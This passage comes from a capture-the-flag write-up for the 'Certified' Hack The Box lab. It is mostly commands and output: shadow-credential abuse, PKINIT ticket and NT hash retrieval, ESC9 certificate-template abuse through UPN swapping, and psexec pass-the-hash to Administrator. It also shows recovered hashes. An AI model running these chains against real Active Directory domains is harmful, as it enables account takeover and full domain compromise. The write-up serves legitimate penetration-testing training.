  |  | Modulus (N): 0xa44b204b0a69b60393424434e1004087bc3299091c38f57ffa49ad25463687f1794b00760f08a28fec24226961f5b166cb41605a927c4392ae6eb74214f55f42b7f662065480b6306defa0202b48d3648d8645d7e2bf27f440e070682539a03f4decbaa54d6a7fba3eecd7792ceefd50103b4227d827cff7fa523dbcbb288146f729f23f96bf08bf33f7bb783a7ee4ef0df6158e7db861671d56edf12b5d864700c9b8a0f82ea23c8641b1a8f61920a2c26726dba3e41285433ceb572d005b01149cc6ed6390e6ef8cd5b5431d5fe74ce774aa8c24743896c26240c6dee47e80763505c401a01c964967d8b261f005f9de9b6fdba0f0ec19769de008853458c5
  |  | Prime1 (P): 0x0
  |  | Prime2 (Q): 0x0
  | Usage: KeyUsage.NGC
  | LegacyUsage: None
  | Source: KeySource.AD
  | DeviceId: 887ca04e-ddf7-d2ec-a70a-bd5217237cc9
  | CustomKeyInfo: <CustomKeyInformation at 0x7f1c9fde1310>
  |  | Version: 1
  |  | Flags: KeyFlags.NONE
  |  | VolumeType: None
  |  | SupportsNotification: None
  |  | FekKeyVersion: None
  |  | Strength: None
  |  | Reserved: None
  |  | EncodedExtendedCKI: None
  | LastLogonTime (UTC): 2024-11-11 10:56:28.023291
  | CreationTime (UTC): 2024-11-11 10:56:28.023291
[+] Key Credential: B:828:000200002000013aec09a3ccdc601701a00f6c04ff55bc24c332c2adf0afa4997f79c7c82c447c2000024fd665e583d293f4c6781302f38f71e1a9bbf07e37782afa78e9ab9c53dea8d11b0103525341310008000003000000000100000000000000000000010001a44b204b0a69b60393424434e1004087bc3299091c38f57ffa49ad25463687f1794b00760f08a28fec24226961f5b166cb41605a927c4392ae6eb74214f55f42b7f662065480b6306defa0202b48d3648d8645d7e2bf27f440e070682539a03f4decbaa54d6a7fba3eecd7792ceefd50103b4227d827cff7fa523dbcbb288146f729f23f96bf08bf33f7bb783a7ee4ef0df6158e7db861671d56edf12b5d864700c9b8a0f82ea23c8641b1a8f61920a2c26726dba3e41285433ceb572d005b01149cc6ed6390e6ef8cd5b5431d5fe74ce774aa8c24743896c26240c6dee47e80763505c401a01c964967d8b261f005f9de9b6fdba0f0ec19769de008853458c501000401010005001000064ea07c88f7ddecd2a70abd5217237cc90200070100080008c963c05b2834db01080009c963c05b2834db01:CN=management service,CN=Users,DC=certified,DC=htb
[*] Adding Key Credential with device ID '887ca04e-ddf7-d2ec-a70a-bd5217237cc9' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '887ca04e-ddf7-d2ec-a70a-bd5217237cc9' to the Key Credentials for 'management_svc'
[*] Saved certificate and private key to 'management_svc.pfx'

```

`management_svc.pfx` is saved.
###### `Obtaining TGT using the pfx for the user management_svc`
```
# ntpdate -u certified.htb                                               
2024-11-11 08:15:11.766897 (-0500) +8246.003239 +/- 0.048240 certified.htb 10.10.11.41 s1 no-leap
CLOCK: time stepped by 8246.003239
```

```
# python ../PKINITtools/gettgtpkinit.py -cert-pfx management_svc.pfx  'certified.htb'/'management_svc' management_svc.ccache
2024-11-11 08:15:15,225 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-11 08:15:15,542 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-11 08:15:20,010 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-11 08:15:20,010 minikerberos INFO     2bd5a53e43e15bc574354ce2252456c0f6dd0b2535411049e2081759123ffed0
INFO:minikerberos:2bd5a53e43e15bc574354ce2252456c0f6dd0b2535411049e2081759123ffed0
2024-11-11 08:15:20,022 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

###### `Getting NTLM Hash for user management_svc`
```
# export KRB5CCNAME=management_svc.ccache 
# python ../PKINITtools/getnthash.py certified.htb/management_svc -key 2bd5a53e43e15bc574354ce2252456c0f6dd0b2535411049e2081759123ffed0 -dc-ip 10.10.11.41 -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /root/venv/lib/python3.12/site-packages/impacket
[+] Using Kerberos Cache: management_svc.ccache
[+] Returning cached credential for KRBTGT/CERTIFIED.HTB@CERTIFIED.HTB
[*] Using TGT from cache
/home/ringbuffer/Downloads/Tools/bloodyAD/../PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
[+] AUTHENTICATOR
Authenticator:
 authenticator-vno=5
 crealm=CERTIFIED.HTB
 cname=PrincipalName:
  name-type=1
  name-string=SequenceOf:
   management_svc

 cusec=991533
 ctime=20241111131658Z
<!__________________________SNIPPED_______________________________!>
Hash
a091c1832bcdd4677c28b5a6a1295584
TYPE 0x6

```

At this point I tried to login using Evil-WinRM but the box didn't have the port 5985 open. So I will use this NTLM hash and start the Privilege Escalation

### `Privilege Escalation`

###### `ESC9` - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc8-ad-cs-relay-attack 

###### `Grab the hash for ca_operator`
```
# ntpdate -u certified.htb
2024-11-11 08:19:31.159105 (-0500) +25.925953 +/- 0.046897 certified.htb 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25.925953

# certipy-ad shadow auto -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584:a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '306f09e1-41f1-fe66-2236-be7b5bb7957e'
[*] Adding Key Credential with device ID '306f09e1-41f1-fe66-2236-be7b5bb7957e' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '306f09e1-41f1-fe66-2236-be7b5bb7957e' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2

```

###### `Change UserPrincipalName of Ca_operator to be admin`
```
# certipy-ad account update -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584:a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'

```

###### `Finding Vulnerable Certificate Template`
```
# certipy-ad find -vulnerable -u 'ca_operator@certified.htb' -hashes fb54d1c05e301e024800c6ad99fe9b45:fb54d1c05e301e024800c6ad99fe9b45
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241110084919_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241110084919_Certipy.txt'
[*] Saved JSON output to '20241110084919_Certipy.json'
```

```
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

###### `Requesting Vulnerable Certificate`
```
# ntpdate -u certified.htb
2024-11-11 08:26:09.263356 (-0500) +4.447175 +/- 0.047652 certified.htb 10.10.11.41 s1 no-leap
CLOCK: time stepped by 4.447175

# certipy-ad req -u 'ca_operator@certified.htb' -hashes b4b86f45c6018f1b664f70805f45d8f2:b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

###### `Setting up UPN `
```
# certipy-ad account update -u 'management_svc@certified.htb' -hashes a091c1832bcdd4677c28b5a6a1295584:a091c1832bcdd4677c28b5a6a1295584 -user 'ca_operator' -upn 'Administrator@certified.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator@certified.htb
[*] Successfully updated 'ca_operator'

```
###### `Grabbing NTLM Hash for Administrator`
```
# certipy-ad auth -pfx administrator.pfx -domain certified.htb                        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

###### `Impacket-psexec to login as Admin and grab both flags`
```
# impacket-psexec administrator@certified.htb -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
C:\Users\management_svc\Desktop>type user.txt
6498eee************************

C:\Users\Administrator\Desktop> type root.txt
222c4b2************************
```

Get both the flags